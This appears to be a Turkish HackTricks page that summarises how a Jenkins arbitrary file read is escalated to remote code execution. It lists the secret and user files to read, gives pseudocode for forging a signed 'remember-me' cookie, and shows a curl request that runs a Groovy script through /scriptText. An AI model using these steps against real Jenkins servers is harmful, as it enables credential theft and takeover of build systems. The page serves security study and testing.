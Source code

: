 # Jenkins Rastgele Dosya Okuma ile RCE'ye "Beni Hatırla" Üzerinden

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

Bu blog yazısında, Jenkins'teki Yerel Dosya Dahil Etme açığını RCE'ye dönüştürmenin harika bir yolunu bulabilirsiniz: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Bu, bir rastgele çerezin kötüye kullanıldığı ve RCE elde etmek için yerel dosya okuma ile istismar edildiği kısmın AI tarafından oluşturulmuş bir özetidir, kendi özetimi oluşturacak zamanım olana kadar:

### Saldırı Ön Koşulları

* **Özellik Gereksinimi:** "Beni hatırla" etkin olmalıdır (varsayılan ayar).
* **Erişim Düzeyleri:** Saldırganın Genel/Okuma izinlerine ihtiyacı vardır.
* **Gizli Erişim:** Anahtar dosyalardan hem ikili hem de metin içeriğini okuma yeteneği.

### Ayrıntılı İstismar Süreci

#### Adım 1: Veri Toplama

**Kullanıcı Bilgilerini Alma**

* Her kullanıcı için `$JENKINS_HOME/users/*.xml` dosyasından kullanıcı yapılandırması ve gizli bilgileri erişin:
* **Kullanıcı Adı**
* **Kullanıcı tohum**
* **Zaman Damgası**
* **Şifre Hash'i**

**Gizli Anahtar Çıkartma**

* Çerezi imzalamak için kullanılan kriptografik anahtarları çıkartın:
* **Gizli Anahtar:** `$JENKINS_HOME/secret.key`
* **Anahtar:** `$JENKINS_HOME/secrets/master.key`
* **MAC Anahtar Dosyası:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Adım 2: Çerez Sahteciliği

**Token Hazırlığı**

*   **Token Süre Sonunu Hesapla:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Mevcut zamana bir saat ekler
```
{% endcode %}
*   **Token için Verileri Birleştir:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Anahtarının Şifre Çözümü**

*   **MAC Anahtar Dosyasını Şifre Çöz:**

```javascript
key = toAes128Key(masterKey)  // Anahtarı AES128 anahtar formatına dönüştür
decrypted = AES.decrypt(macFile, key)  // .mac dosyasını şifre çöz
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**İmza Hesaplama**

*   **HMAC SHA256 Hesapla:**

```javascript
mac = HmacSHA256(token, macKey)  // Token ve MAC anahtarını kullanarak HMAC hesapla
tokenSignature = bytesToHexString(mac)  // MAC'i onaltılık dizeye dönüştür
```

**Çerez Kodlama**

*   **Son Çerezi Oluştur:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Çerez verilerini Base64 ile kodla
```
{% endcode %}

#### Adım 3: Kod Çalıştırma

**Oturum Kimlik Doğrulama**

* **CSRF ve Oturum Token'larını Al:**
* `Jenkins-Crumb` almak için `/crumbIssuer/api/json` adresine bir istek yapın.
* Yanıttan `JSESSIONID`'yi yakalayın, bu `remember-me` çerezi ile birlikte kullanılacaktır.

**Komut Çalıştırma İsteği**

*   **Groovy Script ile POST İsteği Gönder:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy script, sistem düzeyinde komutları veya Jenkins ortamında diğer işlemleri çalıştırmak için kullanılabilir.

Verilen örnek curl komutu, gerekli başlıklar ve çerezlerle Jenkins'e istek yaparak rastgele kodu güvenli bir şekilde çalıştırmanın nasıl yapılacağını göstermektedir.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
